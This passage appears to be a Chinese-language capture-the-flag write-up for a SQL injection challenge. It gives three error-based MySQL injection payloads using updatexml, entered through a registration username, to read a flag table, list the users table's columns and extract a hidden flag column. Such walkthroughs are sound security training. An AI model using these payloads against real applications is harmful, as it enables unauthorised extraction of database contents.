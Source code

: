 ![image-20221223122942186](challenge.assets/image-20221223122942186.png)

再注册

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(flag))from(flag))),1))#
```

![image-20221223123118205](challenge.assets/image-20221223123118205.png)

呃呃

那就看看users

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#
```

![image-20221223123212499](challenge.assets/image-20221223123212499.png)

有长度限制，应该是`real_flag_1s_here`

查表

```sql
xl"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users))),1))#
```
